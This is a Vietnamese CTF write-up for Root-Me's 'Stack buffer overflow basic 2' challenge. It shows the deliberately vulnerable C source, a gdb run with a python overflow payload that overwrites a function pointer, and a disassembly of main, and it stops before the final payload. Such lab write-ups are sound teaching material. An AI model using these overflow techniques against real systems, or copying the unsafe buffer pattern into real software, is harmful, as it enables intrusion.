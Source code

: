 # Co-che-hoat-dong-cua-ma-doc - challenge 2 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 2 : ssh -p 2222 app-systeme-ch15@challenge02.root-me.org
```
![image](https://user-images.githubusercontent.com/64201705/119267758-20c6c080-bc1a-11eb-9679-4ad8a2aba493.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
```
Ta sẽ được như này:
![image](https://user-images.githubusercontent.com/64201705/119267830-6d120080-bc1a-11eb-90fd-9801660bea49.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}

void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
Rõ ràng ta thấy để vào được shell bằng câu lệnh:
```C 
system("/bin/bash"); 
``` 
thì ta cần chương trình gọi hàm shell(), đọc source code ta thấy sau khi nhận 128 bytes từ input stdin bỏ vào biến buf thì chương trình gọi hàm func().
Ở đây ta sẽ nghĩ tới việc thay thế địa chỉ gọi hàm func() bằng hàm shell(). 
Trước hết ta sẽ thử ghi đè 128 bytes và 4 bytes phía sau bằng chữ LDLD xem kết quả sẽ như thế nào trong thanh ghi bằng cách sử dụng gdb.
![image](https://user-images.githubusercontent.com/64201705/119268127-bc0c6580-bc1b-11eb-8125-815eb5c10781.png)
```Bash  
(gdb) run < <(python -c "print 'A'*128+'LDLD'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /challenge/app-systeme/ch15/ch15 < <(python -c "print 'A'*128+'LDLD'")

Program received signal SIGSEGV, Segmentation fault.
0x444c444c in ?? ()
(gdb) info register
eax            0x444c444c       1145848908
ecx            0xbffffa7c       -1073743236
edx            0xb7fc489c       -1208203108
ebx            0x804a000        134520832
esp            0xbffffa6c       0xbffffa6c
ebp            0xbffffb08       0xbffffb08
esi            0xb7fc3000       -1208209408
edi            0x0      0
eip            0x444c444c       0x444c444c
eflags         0x10282  [ SF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb)
``` 
ta thấy chương trình sẽ bị crash và giá trị tại eax sẽ là chữ LDLD dưới dạng hex: 0x444c444c
Ta thử disassemble main thử xem:
![image](https://user-images.githubusercontent.com/64201705/119268351-bc593080-bc1c-11eb-9547-566b9c40f7a3.png)
```Bash
Dump of assembler code for function main:
   0x08048584 <+0>:     lea    0x4(%esp),%ecx
   0x08048588 <+4>:     and    $0xfffffff0,%esp
   0x0804858b <+7>:     pushl  -0x4(%ecx)
   0x0804858e <+10>:    push   %ebp
   0x0804858f <+11>:    mov    %esp,%ebp
   0x08048591 <+13>:    push   %ebx
   0x08048592 <+14>:    push   %ecx
   0x08048593 <+15>:    sub    $0x90,%esp
   0x08048599 <+21>:    call   0x80485de <__x86.get_pc_thunk.ax>
   0x0804859e <+26>:    add    $0x1a62,%eax
   0x080485a3 <+31>:    lea    -0x1aa7(%eax),%edx
   0x080485a9 <+37>:    mov    %edx,-0xc(%ebp)
   0x080485ac <+40>:    mov    -0x4(%eax),%edx
   0x080485b2 <+46>:    mov    (%edx),%edx
   0x080485b4 <+48>:    sub    $0x4,%esp
   0x080485b7 <+51>:    push   %edx
   0x080485b8 <+52>:    push   $0x85
   0x080485bd <+57>:    lea    -0x8c(%ebp),%edx
   0x080485c3 <+63>:    push   %edx
   0x080485c4 <+64>:    mov    %eax,%ebx
   0x080485c6 <+66>:    call   0x8048390 <fgets@plt>
   0x080485cb <+71>:    add    $0x10,%esp
   0x080485ce <+74>:    mov    -0xc(%ebp),%eax
   0x080485d1 <+77>:    call   *%eax
   0x080485d3 <+79>:    nop
   0x080485d4 <+80>:    lea    -0x8(%ebp),%esp
   0x080485d7 <+83>:    pop    %ecx
   0x080485d8 <+84>:    pop    %ebx
---Type <return> to continue, or q <return> to quit---
   0x080485d9 <+85>:    pop    %ebp
   0x080485da <+86>:    lea    -0x4(%ecx),%esp
   0x080485dd <+89>:    ret
End of assembler dump.
```
Ta thấy sau khi gọi hàm fgets tại địa chỉ 0x080485c6 thì nó tiếp tục gọi hàm func() là con trỏ hàm được lưu trong thanh ghi eax, do đó ta sẽ tìm địa chỉ hàm shell để thay thế vào thanh ghi này bằng cách disass shell

![image](https://user-images.githubusercontent.com/64201705/119268337-ae0b1480-bc1c-11eb-8892-cec5781bc9ad.png)

